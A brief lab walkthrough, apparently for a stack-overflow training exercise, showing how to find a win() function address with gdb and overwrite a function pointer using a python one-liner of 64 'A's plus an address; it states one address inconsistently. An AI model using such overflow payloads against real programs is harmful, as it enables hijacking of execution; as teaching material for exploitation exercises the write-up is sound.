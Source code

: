 This stack is pretty the same as 0. We need overwrite "fp" var with `win()` function address `'A' * 64 + 0x0a0d0a0d`

Get win function address:
`disassemble win`

![img_2.png](img_2.png)

Get `fp` variable address in esp:
`disassemble main`

![img_3.png](img_3.png)

Overwrite variable with python: `python -c "print 'A' * 64 + '\x24\x84\x04\x08'"`

![img_4.png](img_4.png)
